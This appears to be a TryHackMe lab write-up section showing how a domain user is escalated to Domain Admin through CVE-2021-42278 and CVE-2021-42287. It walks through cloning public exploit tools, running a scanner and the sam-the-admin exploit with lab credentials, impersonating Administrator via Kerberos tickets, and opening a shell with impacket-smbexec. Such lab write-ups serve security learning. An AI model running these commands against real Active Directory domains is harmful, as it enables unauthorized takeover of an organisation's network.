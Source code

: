 ## Domain Admin - CVE-2021-42278 & CVE-2021-42287
1. This exploit allows us to privilege escalate from any domain user to a domain administrator
	- svc-admin -> Domain Admin
2. Download exploit
	``` 
	git clone https://github.com/Alh4zr3d/sam-the-admin.git
	```
3. Download scanner
	``` 
	git clone https://github.com/Ridter/noPac.git
	```
4. Run scanner
	``` 
	┌──(root💀kali)-[~/tools/noPac]
	└─# python3 scanner.py spookysec.local/svc-admin:'management2005' -dc-ip $ip -use-ldap

	███    ██  ██████  ██████   █████   ██████ 
	████   ██ ██    ██ ██   ██ ██   ██ ██      
	██ ██  ██ ██    ██ ██████  ███████ ██      
	██  ██ ██ ██    ██ ██      ██   ██ ██      
	██   ████  ██████  ██      ██   ██  ██████ 



	[*] Current ms-DS-MachineAccountQuota = 10
	[*] Got TGT with PAC from 10.10.58.30. Ticket size 1530
	[*] Got TGT from AttacktiveDirectory.spookysec.local. Ticket size 733
	```
5. Run the exploit
	``` 
	┌──(root💀kali)-[~/tryhackme/attacktivedirect/10.10.184.179/exploit/sam-the-admin]
	└─# python3 sam_the_admin.py -dc-ip $ip spookysec.local/svc-admin:management2005
	Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

	[-] WARNING: Target host is not a DC
	[*] Selected Target attacktivedirectory.spookysec.local
	[*] Total Domain Admins 2
	[*] will try to impersonate Administrator
	[*] Current ms-DS-MachineAccountQuota = 10
	[*] Adding Computer Account "CTHULHU-FHTAGN-38$"
	[*] MachineAccount "CTHULHU-FHTAGN-38$" password = dRP0p0Q3gnM#
	[*] Successfully added machine account CTHULHU-FHTAGN-38$ with password dRP0p0Q3gnM#.
	[*] CTHULHU-FHTAGN-38$ object = CN=CTHULHU-FHTAGN-38,CN=Computers,DC=spookysec,DC=local
	[*] CTHULHU-FHTAGN-38$ sAMAccountName == attacktivedirec
	[*] Saving ticket in attacktivedirec.ccache
	[*] Resting the machine account to CTHULHU-FHTAGN-38$
	[*] Restored CTHULHU-FHTAGN-38$ sAMAccountName to original value
	[*] Using TGT from cache
	[*] Impersonating Administrator
	[*] 	Requesting S4U2self
	[*] Saving ticket in Administrator.ccache
	[*] You can deploy a shell when you want using the following command:
	[$] KRB5CCNAME='Administrator.ccache' /usr/bin/impacket-smbexec -target-ip 10.10.58.30 -dc-ip 10.10.58.30 -k -no-pass @'attacktivedirectory.spookysec.local'
	[*] Deleting Computer Account "CTHULHU-FHTAGN-38$"
	[*] MachineAccount "CTHULHU-FHTAGN-38$" password = dRP0p0Q3gnM#
	Kerberos auth requires DNS name of the target DC. Use -dc-host.
	```
6. Obtain a shell w/ smbexec
	``` 
	┌──(root💀kali)-[~/tryhackme/attacktivedirect/10.10.184.179/exploit/sam-the-admin]
	└─# KRB5CCNAME='Administrator.ccache' /usr/bin/impacket-smbexec -target-ip $ip -dc-ip $ip -k -no-pass @AttacktiveDirectory.spookysec.local
	```
